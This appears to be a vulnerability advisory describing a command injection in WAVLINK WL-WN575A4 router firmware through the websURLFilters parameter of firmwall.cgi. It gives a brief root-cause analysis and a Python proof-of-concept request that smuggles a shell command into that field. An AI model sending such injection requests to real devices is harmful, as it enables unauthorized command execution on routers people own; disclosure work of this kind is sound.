




# command injection

## WAVLINK_WL_WN575A4

version: 20220801

## Description:

There is a command injection in firmwall.cgi/iptablesWebsFilterRun

## Source:

you may download it from : https://www.wavlink.com/zh_cn/firmware/details/a3d6df692e.html

## Analyse:


  
concate and call system, cause command injection  
  
and we can know function get_nth_value pass a2 to a4  
  
v0 get value from websURLFilters  
  
we can set websURLFilters in function websURLFilter via parameter websURLFilters


## POC
```
url = "http://192.168.0.1/cgi-bin/firmwall.cgi"
payload = ';ls > /tmp/1;' + '\n'

r = requests.post(url, data={ 'page':'websURLFilter', 'websURLFilters':  payload})
``` 
